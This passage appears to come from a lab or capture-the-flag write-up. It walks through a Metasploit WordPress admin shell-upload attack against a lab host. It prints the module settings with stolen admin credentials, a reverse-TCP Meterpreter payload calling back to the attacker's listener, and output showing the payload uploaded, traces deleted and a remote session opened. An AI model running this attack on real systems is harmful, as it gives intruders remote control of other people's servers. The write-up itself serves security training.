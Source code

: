 ~~~bash
TARGETURI => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME c0rrupt3d_brain
USERNAME => c0rrupt3d_brain
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD 24992499
PASSWORD => 24992499
~~~
When I think I entered all the data which is needed, I double check all the details by the command **show options**.
~~~bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   24992499         yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.138.17   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-M
                                         etasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /wordpress        yes       The base path to the wordpress application
   USERNAME   c0rrupt3d_brain  yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.138.4    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress


msf6 exploit(unix/webapp/wp_admin_shell_upload) > 

~~~
Everything is setup correctly. So, it is showtime! By entering the command **run** and hitting the enter key on my keyboard the exploit should work.
~~~bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 192.168.138.4:4444 
[*] Authenticating with WordPress using c0rrupt3d_brain:24992499...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/dBytIRehrF/NMCpJuVTcm.php...
[*] Sending stage (39927 bytes) to 192.168.138.17
[+] Deleted NMCpJuVTcm.php
[+] Deleted dBytIRehrF.php
[+] Deleted ../dBytIRehrF
[*] Meterpreter session 1 opened (192.168.138.4:4444 -> 192.168.138.17:37230) at 2022-09-06 21:48:08 +0200

~~~